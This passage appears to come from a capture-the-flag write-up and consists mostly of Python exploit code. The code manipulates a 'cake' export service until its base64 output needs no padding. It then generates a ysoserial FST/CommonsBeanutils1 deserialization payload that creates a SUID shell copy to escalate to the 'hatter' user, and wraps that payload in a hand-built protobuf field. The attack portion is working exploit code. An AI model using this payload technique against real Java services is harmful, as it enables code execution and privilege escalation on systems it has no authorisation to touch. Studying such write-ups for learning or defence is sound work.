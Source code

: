 ```python
    # Set a caption until the base64 cake output requires no padding.
    log.info('Looking for a suitable cake export...')
    cake_struct = None
    caption_length = 0
    while True:
        # Get the current exported cake.
        c.recvuntil(b'Choice: ')
        c.sendline(b'7')
        c.recvuntil(b"Here's your cake to go:\n")
        json_data = c.recvuntil(b'\n').strip()
        cake_struct = json.loads(json_data)
        cake_base64 = binascii.unhexlify(cake_struct['cake'])

        # Print some information.
        log.info("Caption Length: {}".format(caption_length))
        log.info("Cake: {}".format(cake_base64.decode('ascii')))
        log.info("Digest: {}".format(cake_struct['digest']))

        # If it meets the constraints, then break immediately.
        if cake_base64[-1] != ord(b'='):
            break

        # Otherwise, add more captions.
        c.recvuntil(b'Choice: ')
        c.sendline(b'3')
        caption_length += 1
        caption = b'B' * caption_length
        c.sendline(caption)
        c.recvuntil(b'Caption set!')
```

Then, we call the modified ysoserial to generate the payload for another SUID shell that allows us
to escalate to the `hatter` user.

```python
    # Generate the deserialization payload.
    log.info('Generating FST Deserialization payload to create a hatter SUID binary.')
    fst_payload = subprocess.check_output(
        ['java', '-jar', 'ysoserial-fst-private-master/target/ysoserial-0.0.6-SNAPSHOT-all.jar',
         '-fst', 'CommonsBeanutils1',
         'bash -c {cp,/bin/sh,/tmp/hackers_use_me/pwn2};{chmod,+s,/tmp/hackers_use_me/pwn2}'],
        stderr=subprocess.DEVNULL
    )
```

Now the protobuf serialized fireworks field is forged using the utilities and layout we defined
earlier.

```python
    # Generate the protobuf serialized fireworks field
    #     repeated bytes fireworks = 5;
    # From https://developers.google.com/protocol-buffers/docs/encoding#structure:
    # The wire type of the length-delimited fields like bytes is 2.
    # After the key, the length of the bytes is encoded as a varint.
    log.info('Constructing the protobuf field from scratch.')
    fireworks_payload = encode_key(5, 2)
    fireworks_payload += encode_varint(len(fst_payload))
    fireworks_payload += fst_payload
    fireworks_encoded = base64.b64encode(fireworks_payload)
```
